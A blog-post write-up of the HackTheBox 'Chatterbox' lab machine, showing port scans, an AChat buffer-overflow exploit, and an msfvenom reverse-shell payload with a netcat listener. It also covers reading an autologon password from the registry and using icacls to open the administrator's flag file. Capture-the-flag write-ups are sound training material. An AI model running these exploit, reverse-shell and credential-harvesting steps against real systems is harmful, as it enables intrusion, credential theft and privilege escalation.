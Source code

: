```yaml
---
title: 'Chatterbox Writeup'
date: 2018-06-18
thumbnailImagePosition: left
thumbnailImage: /img/posts/2018/06/chatterbox-writeup/chatterbox-writeup-banner.png
coverImage: /img/posts/2018/06/chatterbox-writeup/chatterbox-writeup-banner.png
coversize: partial
coverMeta: out
metaAlignment: center
clearReading: true
categories:
- Hackthebox
- CTF
- Writeup
tags:
- hackthebox
- htb
- pentest
- ctf
showTags: false
showPagination: true
showSocial: true
showDate: true
comments: false
summary: "My writeup of the Hack the box Chatterbox."
---
```


> Never tell everything you know...
-Roger H. Lincoln

A box that warranted a lot of resets and frustrations. Due to the fact that the initial shell was provided with a Buffer Overflow, and crashing the service at the same time.

Connecting with my supplied VPN from HackTheBox[^1], and performing the initial NMAP scan on the box IP: 10.10.10.74
```
root@kali:~/Chatterbox$ nmap -p- -T4 -Pn 10.10.10.74
Starting Nmap 7.70 ( https://nmap.org ) at 2018-06-18 16:57 CEST
Nmap scan report for AChat (10.10.10.74)
Host is up (0.041s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE
9255/tcp open  mon
9256/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 287.36 seconds
```
So that gives us two ports, lets run a more thorough scan on both.
```
root@kali:~/Chatterbox$ nmap -p9255,9256 -sV --version-all 10.10.10.74
Starting Nmap 7.70 ( https://nmap.org ) at 2018-06-18 17:05 CEST
Nmap scan report for AChat (10.10.10.74)
Host is up (0.042s latency).

PORT     STATE SERVICE VERSION
9255/tcp open  http    AChat chat system httpd
9256/tcp open  achat   AChat chat system

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.09 seconds
```
Verification of these services can be done with a simple banner grab using netcat
```
root@kali:~/Chatterbox$ nc 10.10.10.74 9255
> GET / HTTP/1.1

HTTP/1.1 204 No Content
Connection: close
Server: AChat
```
Now it serves a HTTP 204 No Content, but the server seems interesting. Reporting as AChat[^2] we can determine (Unless its a fake HTTP Server), that theres some kind of chat server running behind that port.
Using Searchsploit we can quite quickly see if there is some ready made exploit available.
```
root@kali:~/Chatterbox$ searchsploit achat
-------------------------------------------- ----------------------------------
 Exploit Title                              |  Path
                                            | (/usr/share/exploitdb/)
-------------------------------------------- ----------------------------------
Achat 0.150 beta7 - Remote Buffer Overflow  | exploits/windows/remote/36025.py
[..snip..]
-------------------------------------------- ----------------------------------
Shellcodes: No Result
Papers: No Result
```
So there is as I mentioned before a ready made Buffer OverFlow, that could be used.
First of all copy it to the current directory and look into the sourcecode (remember to never run anything without reviewing the sourcecode).
```
root@kali:~/Chatterbox$ searchsploit -m 36025.py
  Exploit: Achat 0.150 beta7 - Remote Buffer Overflow
      URL: https://www.exploit-db.com/exploits/36025/
     Path: /usr/share/exploitdb/exploits/windows/remote/36025.py
File Type: Python script, ASCII text executable, with very long lines, with CRLF line terminators

Copied to: /root/Documents/Documentation/CTF/htb/chatterbox/blog/36025.py
```
The exploit comes with some customization. Namely create your own shellcode to use in the exploit, and as the exploit suggests lets use msfvenom to create a reverse shell.
```
root@kali:~/Chatterbox$ msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.7 LPORT=4000 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python > shellcode.py
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/unicode_mixed
x86/unicode_mixed succeeded with size 774 (iteration=0)
x86/unicode_mixed chosen with final size 774
Payload size: 774 bytes
Final size of python file: 3706 bytes
```
Now LHOST and LPORT are my own, substitute for your IP recieved by HackTheBox. The important part is that the shellcode generated is below 1152 bytes, as that is specified as the largest payload for this exploit. Mine that was generated is 774 bytes, so well below the threshold.
Using a texteditor lets remove the existing 'buf' lines from the exploit and replace with our generated ones.
Now using the exploit, we also need to have a listener before the service is exploited.
```
Exploit:
root@kali:~/Chatterbox$ python 36025.py
---->{P00F}!
root@kali:~/Chatterbox$
```
```
Listener:
root@kali:~/Chatterbox$ nc -lvvp 4000
listening on [any] 4000 ...
connect to [10.10.14.7] from AChat [10.10.10.74] 49157
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
chatterbox\alfred
C:\Windows\system32>
```
Cool, has shell, as 'Chatterbox\Alfred'.
```
c:\Users\Alfred\Desktop>dir /Q
Directory of c:\Users\Alfred\Desktop
[..snip..]
12/10/2017  07:50 PM                32 CHATTERBOX\Alfred      user.txt
[..snip..]
c:\Users\Alfred\Desktop>
```
So that takes care of one flag. Lets go for root!
Doing some registry enumeration, which can be automated with scripts like Sherlock.ps1[^3].
We are presented with:
```
c:\Users\Alfred\Desktop>reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon"
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon
[..snip..]
    DefaultUserName    REG_SZ    Alfred
    AutoAdminLogon    REG_SZ    1
    DefaultPassword    REG_SZ    Welcome1!
[..snip..]
c:\Users\Alfred\Desktop>
```
Got a user and the password, what would the odds be that Alfred uses the same password for the administrator account?
One could use powershell to get a shell as Administrator. But since you also have read access into the Administrator user as Alfred, we can also see if we can change permissions on root.txt using icacls.
```
c:\Users\Administrator>icacls c:\Users\administrator\desktop\root.txt CHATTERBOX\Alfred:(RX)
icacls c:\Users\administrator\desktop\root.txt CHATTERBOX\Alfred:(RX)
Invalid parameter "CHATTERBOX\Alfred:(RX)"

c:\Users\Administrator>icacls c:\Users\Administrator\Desktop\root.txt /grant everyone:(f)
icacls c:\Users\Administrator\Desktop\root.txt /grant everyone:(f)
processed file: c:\Users\Administrator\Desktop\root.txt
Successfully processed 1 files; Failed processing 0 files

c:\Users\Administrator>type Desktop\root.txt
type Desktop\root.txt
EatSleepPwnRepeat
```
[^1]: [www.hackthebox.eu](www.hackthebox.eu)
[^2]: [www.sourceforge.net/projects/achat/](https://sourceforge.net/projects/achat/)
[^3]: [www.github.com/rasta-mouse](https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1)
